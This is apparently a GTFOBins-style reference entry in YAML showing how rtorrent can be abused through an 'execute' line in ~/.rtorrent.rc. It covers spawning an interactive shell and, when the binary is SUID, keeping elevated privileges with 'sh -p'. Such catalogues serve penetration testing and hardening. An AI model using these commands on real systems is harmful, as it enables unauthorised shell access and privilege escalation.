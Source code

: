 ```yaml
---
functions:
  shell:
    - code: |
        echo "execute = /bin/sh,-c,\"/bin/sh <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc
        rtorrent
  suid:
    - code: |
        echo "execute = /bin/sh,-p,-c,\"/bin/sh -p <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc
        ./rtorrent
---
```

